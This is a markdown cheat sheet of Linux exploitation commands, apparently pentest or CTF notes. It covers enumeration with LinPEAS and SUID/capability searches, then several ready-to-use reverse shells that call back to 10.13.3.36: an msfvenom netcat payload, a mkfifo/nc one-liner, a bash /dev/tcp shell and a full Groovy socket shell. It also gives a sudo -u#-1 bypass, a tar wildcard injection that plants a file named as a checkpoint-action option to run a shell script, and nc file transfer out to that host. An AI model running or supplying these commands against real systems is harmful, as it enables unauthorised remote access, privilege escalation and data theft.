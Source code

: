 # Linux Exploitation

## Enumerate Linux Machine
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): 
    * `./linpeas.sh | tee enum.txt` 
    * `less -r enum.txt`

## Find Interesting Files
* Find File With uuid Permission
    * `find / -perm /u=s 2>/dev/null`
    * `find / -perm /4000 2>/dev/null`
* Files With Capabilities
    * `getcap -r / 2>/dev/null`


## Generate reverse ncat
* `msfvenom -p cmd/unix/reverse_netcat lhost=10.13.3.36 lport=4444`
    * `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`
* `bash -c 'bash -i >& /dev/tcp/10.13.3.36/4444 0>&1'`
* Listener: `nc -klvnp 4444`
    * k - Wait for more connections after completion
    * l - Listen for connection
    * v - Verbose
    * n - Don't do DNS lookup
    * p - Port to listen to

## Reverse Shells

### PHP Reverse Shells
* phpbash (webshell): https://github.com/Arrexel/phpbash
* php-reverse-shell.php : https://github.com/pentestmonkey/php-reverse-shell
* #!/usr/bin/env php

### Groovy Reverse Shell
```groovy
String host="10.13.3.36";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Stabilisation of Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
CTRL-z
```sh
stty raw -echo;fg
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


## sudo
* List sudo Permisions
    * `sudo -l`
* Abuse sudo with (ALL, !root)
    * `sudo -u#-1`

## Abuse tar With Wildcard *
```sh
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Using nc To Transfer Files

On the receiving machine
```bash
nc -l -p 1234 > file
```
On the sending machine, open the connection and send the file.

```bash
nc -w 3 10.13.3.36 1234 < file
```